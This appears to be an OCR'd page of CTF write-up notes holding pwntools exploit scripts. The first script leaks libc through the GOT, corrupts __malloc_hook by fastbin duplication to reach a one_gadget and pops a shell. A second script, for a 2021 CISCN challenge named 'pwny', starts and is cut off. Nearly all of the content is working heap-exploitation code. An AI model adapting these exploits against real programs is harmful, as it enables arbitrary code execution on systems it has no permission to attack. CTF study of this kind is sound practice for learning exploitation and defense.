 ```py
malloc(0x60,"a"*0x18 + p64(elf.got['read']) + p64(0xDEADBEEFDEADBEEF))

show()
read_addr = u64(p.recvline()[:-1].ljust(8,'\x00'))
print hex(read_addr)

print libc
base = read_addr - libc.symbols["read"]
print hex(base)
malloc_hook = base + libc.symbols["__malloc_hook"]
realloc = base + libc.symbols["realloc"]

sleep(0.1)
p.sendline("666")

back2(1,"a"*0x10+'\n')
malloc2(0x60,"1"*0x10+'\n')
back2(2,null)
malloc2(0x60,"2"*0x10+'\n')
malloc2(0x60,"3"*0x10+'\n')
free2()
back2(2,null)
free2()

malloc2(0x60,p64(malloc_hook-0x23))
print hex(malloc_hook)
malloc2(0x60,"4"*0x10+'\n')
malloc2(0x60,"5"*0x10+'\n')

one_gadget = [0x45226,0x4527a,0xf03a4,0xf1247]
#[0x45216,0x4526a,0xf02a4,0xf1147]
gdb.attach(p)
pause()
malloc2(0x60, "\x00"*(0x13-8) + p64(one_gadget[3]+base) + p64(realloc + 0x14) )



p.sendline("1")
sleep(0.1)
p.sendline("16")

p.sendline("exec 1>&0")
p.interactive()
```

https://blog.csdn.net/qq_43766802/article/details/108877191

## 2021-ciscn-pwny

```py
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level='debug'
context.arch="amd64"
p = process("./pwny",env={"LD_PRELOAD":"./libc-2.27.so"})
libc = ELF("./libc-2.27.so")
gadget=['0x4f3d5','0x4f432','0x10a41c']

def write(id,content):
	p.sendlineafter("Your choice: ","2")
	p.sendlineafter("Index: ",str(id))
	if content != null:
		p.send(content)
```